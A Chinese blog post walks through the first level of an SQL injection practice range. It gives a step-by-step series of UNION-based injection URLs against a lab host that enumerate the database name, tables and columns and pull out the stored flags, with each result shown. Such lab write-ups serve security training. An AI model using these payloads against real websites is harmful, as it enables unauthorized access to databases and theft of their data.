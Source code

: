 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入
categories: [安全, SQL注入]
description: sql注入练习 报错注入
keywords: SQL注入
---
```


# 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入

靶场地址:  http://vulhub.example.com:81/Pass-01/index.php?id=1

> **注意**: 错误注入 不一定是会返回错误信息。 也指不正常显示结果， 例如此题的查询为空。

## 0x01 准备工具


辅助工具 `google extension` : hackbar

1. 帮助快速构造语句
2. 显示原始字符，免去 urlcode 烦恼


## 0x02 开始

```sql
-- 1. 查询数据库名
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,2, database()
-- error


-- 2. 查询所以表名
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
-- error_flag, user


-- 3. 查询当前库所有列名
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='error_flag'
-- id, flag

-- 4.0 查询 flag 数量
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,count(*) from error_flag
-- 4


-- 4.1 查询 flag
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,id,flag from error_flag
-- zKaQ-Nf

-- 4.2 查询所有flag
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,group_concat(flag) from error_flag
-- zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K

```
